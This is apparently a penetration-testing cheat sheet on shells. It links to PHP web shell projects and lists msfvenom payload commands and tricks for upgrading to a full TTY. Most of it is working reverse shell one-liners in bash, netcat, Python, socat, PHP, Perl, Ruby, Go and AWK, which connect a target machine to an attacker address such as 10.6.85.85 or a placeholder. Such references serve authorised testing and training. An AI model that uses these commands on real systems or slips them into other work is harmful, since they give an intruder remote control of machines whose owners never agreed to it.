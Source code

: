 # Shells 
## Contents
- [Shells](#shells)
  * [Contents](#contents)
  * [Web shells](#web-shells)
  * [Debugging Shells](#debugging-shells)
  * [Reverse shell commands](#reverse-shell-commands)
  * [Msfvenom Payloads](#msfvenom-payloads)
  * [Upgrading to a pseudo terminal / TTY](#upgrading-to-a-pseudo-terminal---tty)

## Web shells 
[phpbash web shell](https://github.com/Arrexel/phpbash)  
[pentest monkey php shell](https://github.com/pentestmonkey/php-reverse-shell)  
[p0wney web shell](https://github.com/flozz/p0wny-shell)  
[white winter wolf web shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)  
[collection of PHP webshells](https://github.com/JohnTroony/php-webshells/tree/master/Collection)    

    /usr/share/seclists/Web-Shells

## Debugging Shells   
executing a command and no response - maybe the command is redirecting to stderr not stdout?
2>&1
Check for versions / path variables  
No path variable? Need absolute path 

    /bin/bash -c 'id'   

## Reverse shell commands  
    bash -i >& /dev/tcp/10.6.85.85/4444 0>&1
nc w/ -e (traditional):  

    rlwrap nc -e /bin/sh 172.16.5.1 4242   
    
    -e /bin/sh 
    -e /bin/bash
    -e /bin/zsh
    -e /bin/ash
    
nc openbsd (no -e):    

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.6.85.85 53 >/tmp/f    
python: 

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",53));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")' 
    
python ipv6:

    python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4343,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");' 
    
socat                     

    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP>:4444 
    
PHP            
    
    php -r '$sock=fsockopen("10.6.85.85",4444);exec("/bin/sh -i <&3 >&3 2>&3");' 

Perl 

    perl -e 'use Socket;$i="IP ADDRESS";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
 
Ruby 

    ruby -rsocket -e'f=TCPSocket.open("IP ADDRESS",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
    
    ruby -rsocket -e 'exit if fork;c=TCPSocket.new("[IPADDR]","[PORT]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
    
    
Golang 

    echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","IP ADDRESS:8080");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go

AWK

    awk 'BEGIN {s = "/inet/tcp/0/IP ADDRESS/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
    
[Tiberius Reverse Shells](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/reverse-shells.rst) 

[Payload All the Things Reverse Shells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) 

[Reverse Shell Cheatsheet](https://github.com/d4t4s3c/Reverse-Shell-Cheat-Sheet)  

[Reverse and Bind Shells with Socat](https://erev0s.com/blog/encrypted-bind-and-reverse-shells-socat/)

## Msfvenom Payloads 

    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf	
    msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf	
    msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf	
    msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
    
## Upgrading to a pseudo terminal / TTY     
[Reference](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

    python -c 'import pty;pty.spawn("/bin/bash")' 
    echo os.system('/bin/bash')
    /bin/sh -i  
    
    SHELL=/bin/bash script -q /dev/null        Ctrl-Z        stty raw -echo        fg    reset    xterm
    
    Can you upload a [socat static binary](https://github.com/andrew-d/static-binaries)? 
    
    vi -> :sh or :!UNIX_command
    perl —e 'exec "/bin/sh";' 
    perl: exec "/bin/sh"; 
    ruby: exec "/bin/sh" 
    lua: os.execute('/bin/sh') 
    

